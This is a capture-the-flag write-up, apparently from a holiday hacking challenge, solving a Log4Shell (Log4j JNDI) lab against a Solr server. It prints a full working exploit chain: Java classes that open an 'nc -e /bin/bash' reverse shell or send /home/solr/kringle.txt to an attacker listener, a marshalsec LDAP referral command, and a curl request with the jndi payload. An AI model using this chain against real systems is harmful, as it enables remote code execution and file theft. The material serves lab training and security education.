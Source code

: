 <h1 id="bonus-red-log4jack">Bonus Red Log4Jack</h1>
<p><strong>Location: North Pole</strong><br>
<strong>Troll: Icky McGoop</strong></p>
<p>This exercise runs in a Cranberry Pi terminal, focusing on exploiting the Log4J vulnerability recently discovered.<br>
Multiple terminal session are created automatically, one running a web server serving from <code>/home/troll/web</code> on port 8080, another one running a netcat listener on port 4444.</p>
<p>The objective is to retrieve the file <code>/home/solr/kringle.txt</code> from a web service running solr on <a href="http://solrpower.kringlecastle.com:8983/">http://solrpower.kringlecastle.com:8983/</a>.</p>
<p>First a Java class <code>Joergen</code> creating a reverse shell is created:</p>
<pre class=" language-java"><code class="prism  language-java"><span class="token keyword">public</span> <span class="token keyword">class</span> <span class="token class-name">Joergen</span> <span class="token punctuation">{</span>
    <span class="token keyword">static</span> <span class="token punctuation">{</span>
        <span class="token keyword">try</span> <span class="token punctuation">{</span>
            java<span class="token punctuation">.</span>lang<span class="token punctuation">.</span>Runtime<span class="token punctuation">.</span><span class="token function">getRuntime</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">.</span><span class="token function">exec</span><span class="token punctuation">(</span><span class="token string">"nc CLIENTIP 4444 -e /bin/bash"</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
        <span class="token punctuation">}</span> <span class="token keyword">catch</span> <span class="token punctuation">(</span><span class="token class-name">Exception</span> err<span class="token punctuation">)</span> <span class="token punctuation">{</span>
            err<span class="token punctuation">.</span><span class="token function">printStackTrace</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
        <span class="token punctuation">}</span>
    <span class="token punctuation">}</span>
<span class="token punctuation">}</span>
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.<br>
This is placed in the web tree, so that the web server is able to hand out this class.<br>
Next the <a href="https://github.com/mbechler/marshalsec">marshalsec</a> installation residing in <code>/home/troll/marshalsec</code>  is started:</p>
<pre><code>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#Joergen"
</code></pre>
<p><em>WEBSERVERIP</em> has to be replaced with the terminal’s IP address.<br>
This application acts as an LDAP server and uses the Java class on the web server as remote code base.</p>
<p>Finally the Log4J vulnerability is triggered:</p>
<pre><code>curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
</code></pre>
<p><em>MARSHALSECIP</em> has to be replaced with the terminal’s IP address.</p>
<p>This triggers on the solr server an LDAP connection to the marshalsec service, which in turn delivers the Java class hosted on the web server. The solr server then executes this class, effectively creating a reverse shell connection to the netcat listener. This allows the file <code>kringle.txt</code> to be retrieved.</p>
<pre><code>cat /home/solr/kringle.txt

The solution to Log4shell is patching.
Sincerely,

Santa
</code></pre>
<p>So <strong>patching</strong> is the solution.</p>
<h3 id="alternative-1-just-reading-the-targeted-file">Alternative 1: just reading the targeted file</h3>
<pre class=" language-java"><code class="prism  language-java"><span class="token keyword">import</span> java<span class="token punctuation">.</span>io<span class="token punctuation">.</span>*<span class="token punctuation">;</span>
<span class="token keyword">import</span> java<span class="token punctuation">.</span>nio<span class="token punctuation">.</span>file<span class="token punctuation">.</span>*<span class="token punctuation">;</span>
<span class="token keyword">public</span> <span class="token keyword">class</span> <span class="token class-name">Joergen</span> <span class="token punctuation">{</span>
  <span class="token keyword">static</span> <span class="token punctuation">{</span>
    <span class="token keyword">try</span> <span class="token punctuation">{</span>
      Process p<span class="token operator">=</span>java<span class="token punctuation">.</span>lang<span class="token punctuation">.</span>Runtime<span class="token punctuation">.</span><span class="token function">getRuntime</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">.</span><span class="token function">exec</span><span class="token punctuation">(</span><span class="token string">"nc CLIENTIP 4444"</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
      Path path<span class="token operator">=</span>Paths<span class="token punctuation">.</span><span class="token function">get</span><span class="token punctuation">(</span><span class="token string">"/home/solr/kringle.txt"</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
      <span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span> data <span class="token operator">=</span> Files<span class="token punctuation">.</span><span class="token function">readAllBytes</span><span class="token punctuation">(</span>path<span class="token punctuation">)</span><span class="token punctuation">;</span>
      OutputStream out<span class="token operator">=</span>p<span class="token punctuation">.</span><span class="token function">getOutputStream</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
      out<span class="token punctuation">.</span><span class="token function">write</span><span class="token punctuation">(</span>data<span class="token punctuation">)</span><span class="token punctuation">;</span>
      out<span class="token punctuation">.</span><span class="token function">close</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
    <span class="token punctuation">}</span><span class="token keyword">catch</span> <span class="token punctuation">(</span><span class="token class-name">Exception</span> err<span class="token punctuation">)</span> <span class="token punctuation">{</span>
      err<span class="token punctuation">.</span><span class="token function">printStackTrace</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
    <span class="token punctuation">}</span>
  <span class="token punctuation">}</span>
<span class="token punctuation">}</span>
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.</p>
<h3 id="alternative-2-pure-java-solution-hence-platform-independant">Alternative 2: pure Java solution, hence platform independant</h3>
<pre class=" language-java"><code class="prism  language-java"><span class="token keyword">import</span> java<span class="token punctuation">.</span>io<span class="token punctuation">.</span>*<span class="token punctuation">;</span>
<span class="token keyword">import</span> java<span class="token punctuation">.</span>nio<span class="token punctuation">.</span>file<span class="token punctuation">.</span>*<span class="token punctuation">;</span>
<span class="token keyword">import</span> java<span class="token punctuation">.</span>net<span class="token punctuation">.</span>Socket<span class="token punctuation">;</span>
<span class="token keyword">public</span> <span class="token keyword">class</span> <span class="token class-name">Joergen</span> <span class="token punctuation">{</span>
  <span class="token keyword">static</span> <span class="token punctuation">{</span>
    <span class="token keyword">try</span> <span class="token punctuation">{</span>
      Socket socket<span class="token operator">=</span><span class="token keyword">new</span> <span class="token class-name">Socket</span><span class="token punctuation">(</span><span class="token string">"CLIENTIP"</span><span class="token punctuation">,</span><span class="token number">4444</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
      PrintStream out <span class="token operator">=</span> <span class="token keyword">new</span> <span class="token class-name">PrintStream</span><span class="token punctuation">(</span> socket<span class="token punctuation">.</span><span class="token function">getOutputStream</span><span class="token punctuation">(</span><span class="token punctuation">)</span> <span class="token punctuation">)</span><span class="token punctuation">;</span>
      Path path<span class="token operator">=</span>Paths<span class="token punctuation">.</span><span class="token function">get</span><span class="token punctuation">(</span><span class="token string">"/home/solr/kringle.txt"</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
      <span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span> data <span class="token operator">=</span> Files<span class="token punctuation">.</span><span class="token function">readAllBytes</span><span class="token punctuation">(</span>path<span class="token punctuation">)</span><span class="token punctuation">;</span>
      out<span class="token punctuation">.</span><span class="token function">write</span><span class="token punctuation">(</span>data<span class="token punctuation">)</span><span class="token punctuation">;</span>
    <span class="token punctuation">}</span><span class="token keyword">catch</span> <span class="token punctuation">(</span><span class="token class-name">Exception</span> err<span class="token punctuation">)</span> <span class="token punctuation">{</span>
      err<span class="token punctuation">.</span><span class="token function">printStackTrace</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
    <span class="token punctuation">}</span>
  <span class="token punctuation">}</span>
<span class="token punctuation">}</span>
</code></pre>
<p><em>CLIENTIP</em> has to be replaced with the terminal’s IP address.</p>
<p><strong>Achievement: Log4J Red Bonus</strong></p>

